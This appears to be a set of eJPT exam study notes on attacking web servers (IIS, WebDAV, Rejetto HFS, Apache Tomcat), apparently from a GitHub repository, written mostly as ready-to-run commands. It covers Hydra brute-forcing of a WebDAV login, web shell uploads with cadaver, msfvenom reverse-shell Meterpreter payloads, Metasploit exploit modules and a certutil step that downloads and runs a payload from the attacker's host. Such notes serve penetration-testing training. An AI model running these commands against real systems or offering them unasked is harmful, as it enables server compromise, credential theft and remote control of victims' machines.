 ## HTTP IIS - p80

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

### Nmap scripts

Nmap banner enumeration
```
nmap 10.10.10.1 -p 80 -sV --script banner
```
Directory enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-enum
```
Header Enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-headers
```
HTTP Methods enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-methods --script-args http-method-path=/webdav/
```
WebDAV Enumeration
```
nmap 10.10.10.1 -sV -p 80 --script http-webdav-scan —script-args http-method-path=/webdav/
```
## WebDAV

This service used to facilitate the transfer of files between and within the site.

### Exploitation tools

* davtest
* cadaver

Hydra brute-force attack on the WEBDav login web page.
```
hydra -L userlist.txt - P passwordlist.txt 10.10.10.1 http-get /webdav/
```
DavTest is a utility used to determine which file extensions are supported by the service (upload and execution).
```
davtest -url http://10.10.10.1/webdav -auth bob:password_123321
```
Cadaver is a utility used to upload a web shell to the target site, allowing for remote code execution (RCE) and gaining access to a command-line interface (CLI).
```
cadaver http://10.10.10.1/webdav
put /usr/share/webshells/asp/webshell.asp
```

### WebDav Exploit

*Using Cadaver*

MSFVenom can be used to create a payload for Cadaver.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -f asp > shell.asp
```
```
cadaver http://10.10.10.1/webdav
put /root/shell.asp
```

Metasploit can be used to accept the connection from the target machine.
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
run
```
Execute the shell script uploaded to the browser.

*Using Metasploit*
```
use exploit/windows/iis/iis_webdav_upload_asp
```
This process is identical to the one executed with the help of Cadaver.


### HFS Exploit
```
Rejetto Exploit using Metasploit
use exploit/windows/http/rejetto_hfs_exec
```
### METASPLOIT

Using the search function there are many modules to use.
* http_version - enumerate server version
* http_header - enumerate header
* robots.txt - enumerate robots.txt
* dir_scanner - brute-force directory
* brute_dirs - brute-force directory
* files_dir - brute-force files
* apache_userdir_enum - users enumeration
* http_login - brute-force credentials
* dir_scanner
* dir_listing
* http_put
* http/options


### Web App Vulnerability Scanning with WMAP

WMAP is a Metasploit plugin that automates the vulnerability scanning process by applying some modules that are already part of Metasploit.
```
load wmap
wmap_sites -h
wmap_sites -a 10.10.10.1 - add target site
wmap_targets -h
wmap_targets -l - retrieve lists of targets
wmap_targets -t http://10.10.10.1/ - set a target
wmap_run -h
wmap_run -t - lists modules used during the scan
wmap_run -e - executes scan
```

## HTTP Apache - p80

Apache Tomcat is usually used to host sites developed in Java e uses port TCP 8080.

### Exploiting a vulnerable Apache Tomcat web server

```
search type:exploit tomcat_jsp_upload_bypass
set payload java/jsp_shell_bind_tcp
```
Once we have a valid session, we can use MSFVenom to create a payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.2 LPORT=1234 -f exe > meterpreter.exe
python -m SimpleHTTPServer 80
```
On the target machine we can download the payload and execute it. Remember to set a multi/handler in Metasploit to handle the reverse TCP shell.
```
certutil -urlcache -f http://10.10.10.2/meterpreter.exe meterpreter.exe
```
